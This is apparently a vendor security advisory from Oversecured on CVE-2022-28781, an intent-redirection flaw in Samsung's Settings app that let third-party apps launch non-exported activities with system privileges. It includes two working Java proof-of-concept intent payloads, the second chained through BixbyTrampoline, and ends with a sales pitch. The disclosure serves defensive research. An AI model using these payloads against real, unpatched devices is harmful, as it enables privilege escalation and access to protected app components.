

# Details

<table>
	<tr>
		<td>Name</td>
		<td>Settings</td>
	</tr>
	<tr>
		<td>Package name</td>
		<td><code>com.android.settings</code></td>
	</tr>
	<tr>
		<td>Reported date</td>
		<td>2022.02.03</td>
	</tr>
	<tr>
		<td>Fixed date</td>
		<td>2022.05.04</td>
	</tr>
	<tr>
		<td>Severity</td>
		<td>High</td>
	</tr>
	<tr>
		<td>Handle</td>
		<td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-28781">CVE-2022-28781</a> (SVE-2022-0285)</td>
	</tr>
	<tr>
		<td>Reward</td>
		<td>$4850</td>
	</tr>
</table>

# Description

Oversecured found the following vulnerability in the Settings app:


Samsung extended the `com.android.settings.homepage.SettingsHomepageActivity` class and added custom code that allowed a third-party app to start arbitrary activities. In a regular app, this would lead to the ability to access only within it, but since Settings has UID 1000 (`system`), the vulnerability led to access to any non-exported activities of any apps. This type of attack was previously called LaunchAnyWhere.

We have created the following PoC to access our own `NotExported` activity:
```java
Intent i = new Intent("com.samsung.android.intent.action.HOME_SCREEN_SETTINGS");
i.putExtra("targetAction", "not_empty");
i.putExtra("targetPackage", getPackageName());
i.putExtra("targetClass", NotExported.class.getCanonicalName());
startActivity(i);
```

And it worked! But there was a limitation: we could only control the component, action and extras, but not all the other fields like flags or clipdata. So we decided to create a perfect PoC. All we had to do was to find an intent redirection in Settings or any other system app in a not exported activity. We were lucky because in Settings the activity `com.samsung.android.settings.bixby.activity.BixbyTrampoline` simply took the intent from the `android.intent.extra.INTENT` field and passed it to `startActivity()`. In this way we got a new PoC:
```java
// payload for `com.samsung.android.settings.bixby.activity.BixbyTrampoline`
Intent next = new Intent();
next.setClass(this, NotExported.class);

// payload for `com.android.settings.homepage.SettingsHomepageActivity`
Intent i = new Intent("com.samsung.android.intent.action.HOME_SCREEN_SETTINGS");
i.putExtra("targetAction", "not_empty");
i.putExtra("targetPackage", "com.android.settings");
i.putExtra("targetClass", "com.samsung.android.settings.bixby.activity.BixbyTrampoline");
i.putExtra("from_search_trampoline", true);
i.putExtra("android.intent.extra.INTENT", next);

startActivity(i);
```

## References

- [Oversecured Blog. Android: Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
- [Oversecured Blog. Discovering vendor-specific vulnerabilities in Android](https://blog.oversecured.com/Discovering-vendor-specific-vulnerabilities-in-Android/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.